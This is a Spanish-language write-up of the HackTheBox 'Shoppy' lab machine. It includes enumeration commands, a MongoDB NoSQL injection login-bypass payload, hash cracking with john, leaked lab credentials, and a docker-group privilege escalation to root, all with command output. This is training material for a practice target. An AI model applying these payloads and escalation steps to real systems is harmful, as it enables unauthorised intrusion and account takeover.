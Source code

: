 ```yaml
---
title: Shoppy WriteUp
author: H4ckerLite 
date: 2023-01-14 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [linux, hackthebox, writeup, no sql, docker, easy, virtual hosting]
pin: false
image:
  path: ../../assets/img/commons/shoppy-writeup/Shoppy.png 
  alt: Shoppy WriteUp
---
```


Les explicaré cómo comprometer la máquina [Shoppy](https://app.hackthebox.com/machines/496) de HackTheBox. En esta máquina nos enfretaremos a un `NoSQLi` de `MongoDB` y ganaremos acceso al sistema gracias a una contraseña filtrada y para la escalada nos vamos a aprovechar del grupo **Docker**.

## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.

``````bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:59 -04
Initiating SYN Stealth Scan at 11:59
Scanning 10.10.11.180 [65535 ports]
Discovered open port 80/tcp on 10.10.11.180
Discovered open port 22/tcp on 10.10.11.180
Discovered open port 9093/tcp on 10.10.11.180
Completed SYN Stealth Scan at 12:00, 15.14s elapsed (65535 total ports)
Nmap scan report for 10.10.11.180
Host is up, received user-set (0.16s latency).
Scanned at 2023-01-15 11:59:53 -04 for 16s
Not shown: 65368 closed tcp ports (reset), 164 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
           Raw packets sent: 74269 (3.268MB) | Rcvd: 73540 (2.942MB)
``````


Nos percatamos que tiene el **SSH** abierto y el puerto 80 que corresponde al **HTTP**, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:

```bash
echo "10.10.11.180       shoppy.htb" | tee -a /etc/hosts
```

Ahora debemos ver una web con una cuenta regresiva, nada importante

## Enumeración

Enumerando directorios con **WFUZZ** nos encontramos lo siguiente.
***Nota: Debes tener clonado el repositorio de*** **SecList**
```bash
❯ wfuzz -c --hc=404 -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ  2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000053:   200        25 L     62 W       1074 Ch     "login"                                                                                                                
000000016:   301        10 L     16 W       179 Ch      "images"                                                                                                               
000000291:   301        10 L     16 W       179 Ch      "assets"                                                                                                               
000000259:   302        0 L      4 W        28 Ch       "admin"   
```
Nos encontramos con **/login** , intentamos acceder pero esta protegido por un login, podemos probar con una injección **SQL** y ver si es vulnerable a este tipo de ataque.

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login.png' | relative_url }}){: .center-image }
_Login Shoppy_

Introducimos una comilla al final del usuario para ver si la query de la consulta es vulnerable a SQL injection, notamos que el servidor se demora en responder, por lo que confirmamos que es vulnerble.

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login3.png' | relative_url }}){: .center-image }
_Login Shoppy_
Podemos seguir probando tipicas SQL injection, pero al final ninguna funcionará.
```bash
'
'-- -
' or '1'='1
' or '1'='1'-- -
```
Pero vemos que ninguna funciona, eso nos da una pista que debemos probar con una injección NoSQL, una base de las bases de datos mas usadas son **MongoDB**, buscando payloads en **Google** encontramos estos blogs [MongoDB SQL injection](https://nullsweep.com/a-nosql-injection-primer-with-mongo/) y  este otro blog [No SQl injection](https://nullsweep.com/nosql-injection-cheatsheet/).

Podemos probar `admin'||'1==1` y poner cualquier contraseña:

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login1.png' | relative_url }}){: .center-image }
_Bypass Login_

Bingo!!! Ganamos acceso como administrador, en el buscador podemos repetir la injección.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login2.png' | relative_url }}){: .center-image }

Nos sale una opción para descargar un archivo `JSON`, cuando vemos el archivo vemos 2 usuarios y sus respectivos hashes. Creamos un archivo con los hashes y lo intentaremos crakear con john

```bash
echo "admin:23c6877d9e2b564ef8b32c3a23de27b2" > hashes
echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
❯ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:02 DONE (2023-01-15 12:44) 0.4444g/s 6374Kp/s 6374Kc/s 6735KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```
Tenemos una contraseña, podemos buscar por subdominios a ver que nos encontramos

```bash
❯ gobuster vhost  -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb/ -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 12:48:41 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
Progress: 52985 / 100001 (52.98%)    
```

Tenemos un subdominio, la misma historia lo añadimos en el `/etc/hosts`.

Al entrar en el web nos encontramos con esto
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/josh.png' | relative_url }}){: .center-image }
_Login Mattermost_

Viendo las conversaciones nos dan un usuario y sus credenciales para el *SSH*, nos conectamos.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/matt.png' | relative_url }}){: .center-image }
_Information leaked_

```bash
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jan 15 11:02:26 2023 from 10.10.14.26
manpath: can't set the locale; make sure $LC_* and $LANG are correct
jaeger@shoppy:~$ export TERM=xterm
jaeger@shoppy:~$ 
```
Una vez dentro podemos ver si tenemos algún privilegio asignado a sudo, vemos que podemos ejecutar como el usuario `deploy` un ejecutable.

## Enumeración del sistema

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 

```
Intentamos ejecutar el comando
```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/passw*
Welcome to Josh password manager!
Please enter your master password: Password
Access denied! This incident will be reported !
jaeger@shoppy:~$ 
```
La contraseña no es correcta, jugando con `XXD` podemos ver que la contraseña se filtra, bingo ya descubrimos la contraseña, ahora lo ejecutamos como el usuario deploy


![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/xxd.png' | relative_url }}){: .center-image }
_Password-Manager_


```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$ 
```
Podemos migrar al usuario *Deploy* .

```bash
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
$ bash
deploy@shoppy:/home/jaeger$ 
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:/home/jaeger$ 

 ```

## Escalada de privilegios
Pertenecemos al grupo `docker`  mirando [GtfObins](https://gtfobins.github.io/gtfobins/docker/#shell) podemos ver que podemos abusar del grupo **docker**
Ejecutamos el comando nos da una shell como root.

 ```bash
 deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@3ea87a82734f:/# 
 ```
Ganamos acceso root, ya rooteamos la máquina ahora podemos leer las  flags respectivas para cada usuario.

```bash
root@3ea87a82734f:~# cat root.txt 
3d4c1a0477********************66
root@3ea87a82734f:~# cat /home/jaeger/user.txt 
3d97fe0060********************67
root@3ea87a82734f:~# 
```

